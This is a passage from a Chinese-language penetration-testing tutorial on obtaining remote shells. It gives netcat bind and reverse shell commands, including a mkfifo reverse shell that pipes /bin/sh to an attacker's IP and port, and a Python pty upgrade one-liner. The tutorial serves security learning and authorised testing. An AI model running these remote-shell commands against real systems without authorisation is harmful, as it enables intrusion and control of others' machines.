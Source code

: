 2>&1，2 是错误输出，>& 是错误输出重定向，1 是标准输出，连起来是将错误内容输出重定向到标准输出里。

#### 2.2.2 Netcat

Server 监听 将 /bin/sh 传输到

```bash
nc -lvp <Port> -e /bin/sh
```

Client 连接到目标端口即可拿到 Shell

```bash
nc <IP> <Port>
```

nc 没有 -e 参数如何反弹。

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <Port> > /tmp/f
```

详见 [Netcat - raingray Blog](https://www.raingray.com/archives/438.html#%E8%BF%9C%E7%A8%8B%E6%8E%A7%E5%88%B6) 一文

> Server 监听 333 端口，用 -c 把 shell 传过去，`-c` 是使用 shell。
> 
> ```bash
> nc -lp 333 -c bash
> ```
> 
> Client nc 连接到 Server 333 端口，由于服务端把 shell 传过来了，客户端就拥有执行命令的权限，权限多大的具体看用户。
> 
> ```bash
> nc 172.28.112.34 333
> ```
> 
> 另外还有种用法是客户端监听 333 端口（测试者开放端口等待服务端连接）。
> 
> ```bash
> nc -lp 333
> ```
> 
> 服务端连连接 333 端口把自己的 shell 传给客户端。得到目标系统 shell 后可以利用这种方法把目标系统 shell 传给测试者（让服务器主动连接测试者）。
> 
> ```bash
> B(server)：nc 172.28.112.34 333 -c bash
> ```
> 
> 注：如果是 Windows 请把 shell 换成 cmd。

#### 2.2.3 Python

通过 Python 获取 pty 终端，不太好用但相比 Bash 反弹的 Shell 来说好多了。

```python
python -c "import pty;pty.spawn('/bin/bash')"
```
